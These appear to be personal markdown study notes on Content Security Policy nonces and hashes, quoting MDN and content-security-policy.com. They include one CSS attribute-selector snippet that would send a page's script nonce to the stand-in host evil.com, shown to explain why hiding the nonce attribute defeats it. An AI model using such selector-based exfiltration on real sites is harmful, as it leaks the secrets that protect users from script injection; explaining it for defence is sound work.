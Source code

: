 # Browser security: CSP/nonce

## CSP Nonce ⟶ Script & Style Attribute

- https://content-security-policy.com/nonce/

The HTML `<style>` tag can also accept the nonce attribute. Because CSS styles can also be used to load or request resources or potentially execute client side code, inline style tags are also blocked by default once a CSP policy is enabled.

An alternative to using a CSP nonce, is the CSP hash.

The nonce must be unique for each HTTP response

The nonce should be generated using a cryptographically secure random generator

The nonce should have sufficient length

## CSP Hash Examples and Guide

- https://content-security-policy.com/hash/

```html
<script src="https://code.jquery.com/jquery-3.7.1.min.js"
	integrity="sha256-/JqT3SQfawRcv/BIHPThkBvs0OEvtFFmqPF/lYI/Cxo="
	crossorigin="anonymous"></script>
```

## nonce - HTML: HyperText Markup Language | MDN

- https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Global_attributes/nonce

For security reasons, the `nonce` content attribute is hidden (an empty string will be returned).

So

```css
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

would not work.

But `script.nonce` property exists (???)
